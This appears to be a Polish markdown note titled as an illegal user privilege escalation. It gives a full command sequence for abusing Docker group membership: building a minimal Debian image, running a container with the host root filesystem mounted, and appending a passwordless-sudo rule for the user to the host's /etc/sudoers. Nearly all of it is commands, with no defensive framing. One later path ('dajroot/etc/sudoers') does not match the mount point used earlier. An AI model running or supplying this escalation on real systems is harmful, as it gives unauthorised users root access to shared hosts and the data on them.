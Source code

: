 # Eskalacja uprawnień użytkownika (nielegalna!)

Testowanie uprawnień i tworzenie pliku dockerfile

```bash
more /etc/passwd | grep <nazwa_usera> # sprawdzenie informacji odnośnie konkretnego użytkownika
id # sprawdzenie id aktualnie zalogowanego użytkownika
whoami # sprawdzenie, na jakiego usera jesteśmy zalogowani
getent group | grep docker # sprawdzenie grupy docker
getent group | grep user # sprawdzenie grupy user
sudo bash # próba uruchomemia programu jako root (weryfikacja poziomu uprawnień)
mkdir /home/user/folder # utworzenie katalogu roboczego
cd /home/user/folder
nano Dockerfile # otworzenie pliku dockerfile w edytorze nano (jeżeli nie istnieje, to zostanie utworzony)
```

Struktura pliku Dockerfile:
    - FROM debian:wheezy # żródłowy obraz OSa
    - ENV WORKDIR /folder # utworzenie zmiennej środowiskowej
    - RUN mkdir -p $WORKDIR # punkt montowania systemu plików
    - VOLUME $WORKDIR # ustawiemie woluminu
    - WORKDIR $WORKDIR # ustawienie przestrzeni roboczej

Dockerfile:

```docker
    FROM debian:wheezy
    ENV WORKDIR /folder
    RUN mkdir -p $WORKDIR
    VOLUME $WORKDIR
    WORKDIR $WORKDIR
```

Tworzenie, uruchamianie obrazu, wykorzystanie luki i ponowna weryfikacja uprawnień

```bash
docker build -t folder . # tworzenie pliku obrazu folder
docker ps # wyświetlenie listy uruchomionych aplikacji kontenerowych
docker run -v /:/folder -it folder /bin/bash # uruchamianie obrazu (montowanie systemu plików do wskazanej lokalizacji kontenera oraz wybranie trybu internatywnego (opcja -i), opcji wykorzystania terminala (opcja -t), nazwy kontenera (tutaj folder) i powłoki OSa (tutaj /bin/bash) )
cd ..
echo "user ALL=(ALL) NOPASSWD:ALL" >> /folder/etc/sudoers # dodanie użytkownika do grupy sudoers (dopisanie do pliku /etc/sudoers hosta)
cat dajroot/etc/sudoers # wyświetlenie pliku /etc/sudoers
exit # zakończenie pracy z poziomu kontene
sudo bash # wetyfikacja uprawnień
id # sprawdzenie id aktualnie zalogowanego użytkownika
whoami # sprawdzenie, na jakiego usera jesteśmy zalogowani
cd ~ # przejście do katalogu domowego użytkownika
pwd # wyświetlenie ścieżki do aktualnego folderu
```
